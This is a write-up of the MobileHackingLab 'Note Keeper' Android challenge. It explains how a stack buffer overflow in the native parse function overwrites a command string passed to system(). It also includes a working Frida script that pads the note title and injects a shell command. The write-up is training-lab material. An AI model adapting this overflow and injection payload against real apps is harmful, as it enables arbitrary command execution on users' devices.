



# MobileHackingLab - Note Keeper

After decompiling the APK, in the class `com.mobilehackinglab.notekeeper.MainActivity` the function `parse`  from the `notekeeper` native library is loaded.



Following the `parse` function decompiled and re-engineered with Ghidra from the `libnotekeeper.so` shared library:



The parameter `to_parse` will correspond to the title of a newly created note. It's value is copied into a `buffer` variable which size is `100` bytes. 

In the stack, the  `buffer` memory area is followed by the `cmd_string` (lines 8-9) which contains a static string (line 25) that is passed to the `system` function (line 34).

Since there are no boundary checks when the `to_parse` value is copied to `buffer` (line 31-33), providing as input a value that exceeds the `buffer`'s 100 bytes will result into overriding the value in `cmd_string`.

Following an example of Frida code exploiting this **Buffer Overflow** vulnerability:

```javascript
Java.perform(()=>{
    const MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    MainActivity.parse.overload('java.lang.String').implementation = function(args){
          const padding = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
        const exploit = padding + "id > /data/data/com.mobilehackinglab.notekeeper/files/pwned"
        return this.parse(exploit);
    };

})
```

This script will set the `exploit` value as parameter to the `parse` function each time a new note is created in the application.

The result is the following:

